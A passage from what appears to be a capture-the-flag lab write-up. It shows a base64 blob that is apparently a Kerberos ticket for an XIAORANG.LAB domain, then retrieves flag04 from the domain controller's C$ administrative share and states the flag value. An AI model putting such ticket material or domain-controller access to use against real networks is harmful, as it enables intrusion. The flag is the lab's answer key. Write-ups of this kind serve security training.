/8Zp7l89vjflsUABrCGKU6mj97F3lVD5mqqCy9rCxx6sbaPRmVZExhRd1NplYfIrCqyM6GaL0egZ2GKcRIkzzf4J+qoBqzYP/1KGfxg1jlWfU0hh3mDCoGzxxShHGd0aqhTjM3w9sg2bU0Lt7gNH/VS1QHJa2qnscTRDt46Q2IIfQ19J9EGLd0CzThQv0xZ4pVSngY9hqy6TaVZzXLdXhPaEPUxQY 5WHfYvgxX53sjepWTJdqIJJYME85yKgZyArWmhD4415hnRUzoUDvNKHrEQCebzyVZd+eS2eYZfLw/Mfb6cRHMIIfdXJ7ey8zWzzEpeq+8eXNXDH5L5zblHB0Zr14Xp1aMYiATgLdkUsmot6z9VckR1P4STf3ogw/BCQEXmfITTsAFiqh+UWsjl1GTftqYJALzWotROCUBqU/dpea7MnhnbungD551 00oMwIofKZo5+3nbMG3vETCkr0HD/tjBH3+sYROOD4pBiQzYh2r36khTc1HMsJ1SgzbcjRezBNVzxdXbp1OSQbY5UVvQiF4Dfd0qiq3ev2Y4WtAKTwvOvfga+tMcNvlcIBTDYnGNKa54vSKx5yaGK1NTREgZTAXGivxqfkW8PLixwR7qVOBT27TwbhAYZ5iVWSCLw/J44J5CTsI1ZGkiZBew9RpLB 4Ep6PJCTrDNR5ZRLekYJD31FrgIudYMsa6p5IAKoE0qYXrLJSIWTLodTUjGpSeu05sLNGFDOh6IdN+nnuUHg7xIxtUw33b/ztHuDxzNPBGpm/Qp4KcAHcDWblTx8hN4DQ9w9TEzzXTLHUVFxXRoB2+HfveBrftYlF37UO6496WRvtGmZZrIzEWAW7G5gLWwqqcDVvOO1K8nC2ViPsXHf31lR7k3F3 aPKRMw6i34sn1YIsc3cApoYvDAHO6yRGEZ4RBSqsvymr0OPv7yGkCsqO5BFobMc6uvscS04iyUB5X++m8a6qjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDPuSYlDAXCpCk4nBK0eT7+oQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVS
JKMHAwUAQOEAAKURGA8yMDIzMTIyNjA4MjExN1qmERgPMjAyMzEyMjYxODIxMTdapxEYDzIwMjQwMTAyMDgyMTE3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```



Get `flag04` in `\\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt`: `flag{02078200-cdca-4e1b-b320-dd8a75998002}`.

